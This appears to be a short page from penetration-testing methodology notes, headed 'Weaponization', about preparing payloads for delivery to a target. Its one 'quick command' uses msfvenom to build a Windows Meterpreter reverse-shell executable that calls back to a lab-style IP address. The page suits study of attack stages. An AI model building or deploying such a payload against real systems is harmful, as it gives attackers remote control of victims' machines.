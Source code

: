 ```yaml
---
title: web
hide:
  - toc
---
```


# Weaponization

## Goal
Prepare exploit code and payloads that will be delivered to the target.

## Quick commands
- Placeholder command for payload build:
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=443 -f exe -o payload.exe
